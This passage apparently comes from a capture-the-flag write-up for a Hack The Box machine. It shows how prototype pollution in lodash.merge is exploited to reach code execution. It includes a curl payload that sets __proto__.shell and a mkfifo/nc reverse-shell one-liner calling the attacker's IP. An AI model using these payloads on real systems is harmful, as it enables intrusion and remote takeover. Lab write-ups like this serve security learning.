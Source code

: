 Now when we login using those credentials, we should receive a JWT that grants us admin privileges.

```bash
# victor@pollution (bash)
curl localhost:3000/auth/login -H 'Content-Type: application/json' \
  -d '{"username":"user","password":"pass"}'
```
{:.nolineno}

#### Prototype Pollution

Looking back at the CVE descriptions associated with the vulnerability in _lodash.merge_ (**CVE-2018-3721** and **CVE-2018-16487**), it looks like we can just use the **__proto__** key to modify the prototype of any object. We could exploit this for RCE by setting the **shell** property before the call to *child_process.exec* since this property will determine what file is executed.

```bash
# victor@pollution (bash)
jwt="" # admin JWT here
lhost="10.10.14.4" # HTB VPN IP address
cmd="rm /tmp/r;mkfifo /tmp/r;cat /tmp/r|bash -i 2>&1|nc $lhost 443>/tmp/r&"
echo $cmd > /tmp/_.sh && chmod a+xr /tmp/_.sh
curl localhost:3000/admin/messages/send \
  -H "Content-Type: application/json" -H "x-access-token: $jwt" \
  -d '{"text":"hello","__proto__":{"shell":"/tmp/_.sh"}}'
```
{:.nolineno}

We receive a callback on our PwnCat listener and successfully establish a system shell!
